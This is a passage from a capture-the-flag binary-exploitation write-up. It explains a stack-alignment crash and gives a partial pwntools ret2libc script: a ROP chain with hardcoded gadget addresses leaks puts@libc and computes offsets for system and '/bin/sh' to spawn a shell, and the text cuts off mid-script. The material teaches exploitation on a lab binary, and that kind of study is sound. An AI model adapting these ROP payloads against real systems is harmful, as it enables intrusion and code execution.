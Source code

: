 ```py

# final
p.sendline(payload2)
p.interactive()
```

However, we will face this still:

```shell
$ 
[*] Process './chall_patched' stopped with exit code -11 (SIGSEGV) (pid 161176)
[*] Got EOF while sending in interactive
```

So why is that?

### Number 1 common issue of any Pwn challenges: Stack alignment

https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html

Essentially, before a `call` function is done, RSP has to be 16-bytes aligned. Otherwise, it will cause errors to occur.

There are 2 ways to solve this:
1. Ensure you pad the rest of your payload to fit 16 bytes alignment
2. add a `ret` address before system is called (`ret` will help to reset the stack alignment) 

In this case I have done number 2 (and is probably the most used).

#### Final solution
```py
from pwn import *

# setup the binary
elf = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

p = process("./chall_patched")
context.binary = elf


# leaking puts@libc
payload = b'A' * 72 # padding
payload += p64(0x400653) # pop rdi ; ret
payload += p64(0x601018) # puts@GOT into the function argument
payload += p64(0x400490) # puts@plt
payload += p64(0x4005a7) # return to main so we can see output
p.sendline(payload) 

# puts@libc leak
p.recvuntil("make it!\n")
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info("puts@libc leak address: " + hex(leak))

# look for offsets
# objdump -T libc.so.6 | grep -E "(system$|puts$)"
libc_puts_offset = 0x87bd0
libc_system_offset = 0x58740

# strings -t x libc.so.6 | grep "/bin/sh"
sh_offset = 0x1cb42f


# calculate for libc base address first
```